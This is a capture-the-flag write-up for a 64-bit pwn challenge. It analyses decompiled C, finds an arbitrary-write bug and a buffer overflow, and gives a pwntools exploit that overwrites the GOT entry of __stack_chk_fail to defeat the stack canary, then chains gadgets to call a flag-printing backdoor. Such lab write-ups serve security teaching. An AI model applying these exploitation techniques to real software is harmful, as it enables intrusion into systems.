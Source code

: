 ## Ret2Win V2

Description: The last one was so simple so I decided to bring in something better but trust me, it’s still ret2win!
Author: h4ckyou<br>
Solves: 0

---
Solution
---

We are given a zipfile which when extracted gives a binary

Checking the file type and protections enabled on it shows this
![image](https://github.com/user-attachments/assets/2db95a41-2813-479c-b7d2-43d72b4e6996)

So we are working with a 64 bits executable which is dynamically linked and not stripped, from the protections enabled we see that there's Stack Canary present and NX is enabled

Let us run it to get an overview of what it does
![image](https://github.com/user-attachments/assets/779cadb5-7269-4277-b93b-9e4adf1c3650)

So the program asks if we have any feedback, if we do not it exits else it receives 3 feedbacks from us

Interesting! in order to find the vulnerabiltiy we need to decompile the binary and my choice here is IDA

Here's the main function
![image](https://github.com/user-attachments/assets/82d757f3-4df4-4069-ae0d-b29e47263bfe)

It just calls `init()` and the `challenge()` function

The first function just disables buffering on stdin, stdout & stderr
![image](https://github.com/user-attachments/assets/605b401d-fa23-4412-8305-8c5a11aa16e5)

That's just standard pwn stuff

The next function does this
![image](https://github.com/user-attachments/assets/9c15803f-2369-4703-97c3-a5c8858e47c3)

```c
__int64 challenge()
{
  char s1[5]; // [rsp+3h] [rbp-Dh] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Welcome to part two of the first pwn challenge");
  puts("What's a CTF without a beginners's pwn :)");
  puts("Would you like to give any feedback?");
  __isoc99_scanf("%4s", s1);
  getchar();
  if ( !strncmp(s1, "yes", 3uLL) )
  {
    feedback();
    return 0LL;
  }
  else
  {
    puts("Goodbye");
    return 1LL;
  }
}
```

So we can see that if our input is `yes` it would call the `feeback()` function so that means our bug is going to be there

Here's the decompilation of the function:
![image](https://github.com/user-attachments/assets/d7a66526-44bf-472a-82bc-3e3eef36e544)

```c
__int64 feedback()
{
  void *buf; // [rsp+8h] [rbp-38h] BYREF
  char v2[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v3; // [rsp+38h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  memset(v2, 0, sizeof(v2));
  buf = 0LL;
  puts("What's your first complaint.");
  read(0, &buf, 8uLL);
  puts("What's your second complaint..");
  read(0, buf, 8uLL);
  puts("What's your final complaint...");
  read(0, v2, 0x60uLL);
  puts("Ok thanks for your opinion");
  return 0LL;
}
```

Ok looking through that we see that it receives our input and stores it in `buf` then it yet again receives our input and stores it in `buf` and finally it receives our input and stores it in `v2`

There are two vulnerabilities there:
- Arbitrary Write to Memory (Write What Where)
- Buffer Overflow

The first bug comes from the fact that `&buf` is used, which gives the address of the buffer itself and we are reading into it, this means we are reading into the address pointed by buf which therefore gives us the ability to overwrite the address of `buf` and then we can reading into `buf` meaning we are reading into the address of buf

The second bug is an obvious overflow, since we are reading at most `0x60` bytes into a buffer that can only hold up `0x28` bytes

Now how do we exploit this?

Looking through the available functions we see this

![image](https://github.com/user-attachments/assets/6e55efe4-1566-4795-a549-0dc1cf54726f)

Hmm, a backdoor function

Checking it shows this
![image](https://github.com/user-attachments/assets/2487856b-1cf2-483a-9e95-09ed44012b21)

```c
__int64 __fastcall backdoor(__int16 a1, __int16 a2)
{
  FILE *stream; // [rsp+10h] [rbp-40h]
  char ptr[40]; // [rsp+20h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+48h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  stream = fopen("flag.txt", "r");
  if ( stream )
  {
    if ( a1 == (__int16)0xDEAD && a2 == (__int16)0xBEEF )
    {
      ptr[fread(ptr, 1uLL, 0x27uLL, stream)] = 0;
      puts(ptr);
    }
    else
    {
      puts("Invalid keys");
    }
    fclose(stream);
    return 0LL;
  }
  else
  {
    puts("Error opening flag.txt, contact admin!");
    return 1LL;
  }
}
```

Basically this function requires two parameter and expects them to match `0xdead` & `0xbeef` respectively, if it does match then it prints the flag

Our goal is to call this function, but how do we exactly exploit the buffer overflow?

When we try to smash the stack we would overwrite the stack canary thereby failing the stack canary check and calling the `__stack_chk_fail` function
![image](https://github.com/user-attachments/assets/66ae42c7-6444-4c36-906f-7887025210b4)

We need to bypass this!

To do that we would leverage the Write-What-Where primitive to overwrite the GOT of the `__stack_chk_fail` function so that when it's called it justs `ret`

The idea is that when we overwrite the global offset table of the `__stack_chk_fail` function to a `ret` instruction, when we perform the buffer overflow the function is going to be called, but since it points to an instruction `ret` it would just return and continue execution like nothing happened which then allows us to overwrite the saved rbp and the return address because of how stack layout is:
![image](https://github.com/user-attachments/assets/db6c4bfd-1939-4e73-90e7-87f5a05b99f7)

This is my exploit script buf i'm showing just the solve function since the rest are pretty much just templates:

```python
def solve():

    offset = 56
    pop_rdi_rsi = 0x40139b
    ret = 0x40101a
    stack_chk = exe.got['__stack_chk_fail']
    
    io.recvuntil("feedback?")
    io.sendline("yes")

    io.recvuntil(".")
    io.send(p64(stack_chk))

    io.recvuntil("..")
    io.send(p64(ret))

    payload = flat({
        offset: [
            pop_rdi_rsi,
            0xdead,
            0xbeef,
            exe.sym['backdoor']
        ]
    })

    io.recvuntil("...")
    io.sendline(payload)

    io.interactive()
```

Running it works!
![image](https://github.com/user-attachments/assets/efedac64-a0be-4c19-bf00-dd954daba1c1)

```
Flag: csean{g0t_0v3rwr1t3_15_fuN}24
```











